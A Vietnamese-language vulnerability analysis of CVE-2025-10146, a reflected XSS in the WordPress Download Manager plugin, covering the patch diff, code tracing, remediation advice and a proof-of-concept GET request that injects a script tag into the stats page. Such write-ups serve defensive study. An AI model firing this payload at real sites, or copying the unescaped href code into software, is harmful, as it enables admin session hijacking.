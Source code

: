 # CVE-2025-10146 Analysis & POC


Lỗ hổng trong plugin **Download Manager** trước phiên bản **3.3.24**. Dữ liệu được lấy từ **GET** request được in trực tiếp vào **HTML attribute**, **reflected XSS** xảy ra khi người dùng có đặc quyền truy cập vào đường dẫn do attack cung cấp.

* **CVE ID**: [CVE-2025-10146](https://www.cve.org/CVERecord?id=CVE-2025-10146)
* **Product**: [WordPress Download Manager Plugin](https://wordpress.org/plugins/download-manager)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 3.3.23
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Download Manager**: v3.3.23(vul) và v3.3.24(fix)
* **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

---

## Analysis

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **src/Admin/views/stats/history.php**.

**Bản lỗi**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo $reset_url; ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

Lấy **GET params** và gán trực tiếp vào **href** của thẻ `<a>` mà không có cơ chế bảo vệ => nguy cơ **reflected XSS**.

**Bản vá**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $get_params_xu = \WPDM\__\__::sanitize_array($get_params_xu, 'safetxt');

        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo esc_url($reset_url); ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

![Patch Diff](patch_diff.png "Patch Diff: sanitized GET parameters and escaped URL")

Bản vá đã **sanitize** mảng **GET params** bằng `sanitize_array` và sử dụng `esc_url`  để **escape URL** => an toàn hơn.

### How It Work?

Ta cần tìm URL thực sự để inject GET params chứa XSS payload.

**src/Admin/views/stats/history.php** chứa các tag **php**, **HTML** và nằm trong **views** cho thấy file này được include ở nơi nào đó trong mã nguồn plugin.

Ta tìm với từ khóa `history.php` trong thư mục plugin

![Search 1](search1.png "Search results for history.php")

👉 Không có kết quả nào khớp. Khả năng cao nó được include động như này `{$file_name}.php`. Ta tìm với regex `\{.*\}\.php`:

![Regex](regex.png "Regex search for dynamic includes")

**src/Admin/views/stats/history.php** được include trong **src/Admin/views/stats.php**

URL thực sự để truy cập được khai báo ở đầu file **stats.php**

```
$base_page_uri = "edit.php?post_type=wpdmpro&page=wpdm-stats";
```

Tương tự **history.php**, **stats.php** cũng được include ở đâu đó trong mã nguồn plugin. Nhưng không cần quan tâm vì ta đã tìm được URL thực sự.

Để chắc chắn hơn, ta đặt **breakpoint** tại vị trí lỗ hổng trong file **src/Admin/views/stats/history.php**, sau đó bắt đầu debug và truy cập URL:

```
edit.php?post_type=wpdmpro&page=wpdm-stats
```

![Debug](debug.png "Breakpoint debugging to observe GET params")

Trước tiên, plugin lấy toàn bộ **GET parameters** vào `$get_params`.

Nếu `$user_ids` không rỗng, plugin sẽ tạo **nút “Clear filter”**. Để làm nút này hoạt động, cần một URL mà **không còn `user_ids`** nữa, nên plugin làm như sau:

```php
$get_params_xu = $get_params;        // copy toàn bộ GET parameters
unset($get_params_xu['user_ids']);   // bỏ user_ids ra khỏi mảng
$reset_url = add_query_arg($get_params_xu, 'edit.php'); // tạo URL mới
```

* `unset($get_params_xu['user_ids'])` => loại bỏ bộ lọc `user_ids` khỏi URL.
* `add_query_arg($get_params_xu, 'edit.php')` > tạo URL mới với các tham số còn lại.

Cuối cùng, URL này được gắn vào nút “Clear filter”:

```php
<a href="<?php echo $reset_url; ?>" class="clear-btn">...</a>
```

**Kết quả:** Khi người dùng nhấn nút, trang sẽ load lại **mà không còn bộ lọc user_ids**, tức là `“clear filter”`.

---

## Exploit

### Detect XSS

Gửi GET request chứa XSS payload:

```http
GET /wp-admin/edit.php?post_type=wpdmpro&page=wpdm-stats&user_ids[0]=1&payload="></a><script>alert(document.domain)</script> HTTP/1.1
```

Ta thêm `"></a>` để đóng thẻ `<a>` sau đó thêm 1 script dể `alert()`

![XSS](xss.png "Reflected XSS triggered via GET parameter")

👉 XSS thành công, khi người dùng có đặc quyền truy cập vào URL do attacker cung cấp thì **reflected XSS** xảy ra => Xảy ra đúng kịch bản **Unauthenticated**

---

## Conclusion

Lỗ hổng **CVE-2025-10146** trong plugin **WordPress Download Manager <= 3.3.23** là **reflected XSS**, xảy ra khi dữ liệu từ **GET request** được in trực tiếp vào **HTML attribute** mà không được sanitize hoặc escape. Người dùng có quyền truy cập vào đường dẫn này (admin/author) có thể bị tấn công nếu truy cập URL do attacker tạo.

Bản vá **3.3.24** đã:

1. **Sanitize mảng GET parameters** (`sanitize_array`) để loại bỏ ký tự nguy hiểm.
2. **Escape URL** khi in ra HTML (`esc_url`) để ngăn XSS.

**Key takeaways**:

* Luôn **sanitize và escape dữ liệu** từ người dùng trước khi render ra HTML.
* Kiểm tra **quyền truy cập** trước khi xử lý hoặc hiển thị dữ liệu nhạy cảm.
* Ngay cả các role thấp (contributor) vẫn có thể trở thành điểm tấn công nếu plugin không bảo vệ đúng cách.
* Cập nhật plugin thường xuyên là cách phòng thủ đơn giản nhưng hiệu quả nhất.

---

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Download Manager Plugin <= 3.3.24 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/download-manager/vulnerability/wordpress-download-manager-plugin-3-3-23-reflected-cross-site-scripting-via-user-ids-parameter-vulnerability)

---

